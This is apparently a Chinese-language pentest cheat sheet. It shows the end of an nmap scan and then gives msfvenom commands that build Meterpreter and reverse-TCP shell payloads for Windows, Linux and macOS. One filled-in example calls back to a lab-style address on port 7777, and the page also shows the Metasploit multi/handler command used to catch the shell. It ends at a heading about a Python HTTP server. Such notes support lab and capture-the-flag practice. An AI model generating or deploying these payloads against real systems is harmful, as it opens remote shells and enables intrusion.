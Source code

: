 ```plain
Completed NSE at 10:28, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:28
Completed NSE at 10:28, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:28
Completed NSE at 10:28, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.71 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

### msf 反弹shell
#### 生成马
##### Windows
```plain
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe >9 shell.exe
```

##### Linux
```plain
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

##### Mac
```plain
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address>LPORT=<Your Port to Connect On> -f macho > shell.macho
```

示例：

```plain
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=7777 -f elf > shell.elf
```

会生成`<font style="background-color:rgb(187,191,196);">elf</font>`w

#### 使用🐎
```plain
use exploit/multi/handler
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753631141986-89975256-179b-40dd-b6f2-198f0ce45def.png)

## Python 起 http 服务
### 配置
![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753631143571-b4f0c6bb-561f-4e0a-b9e9-fa1c251f608d.png)
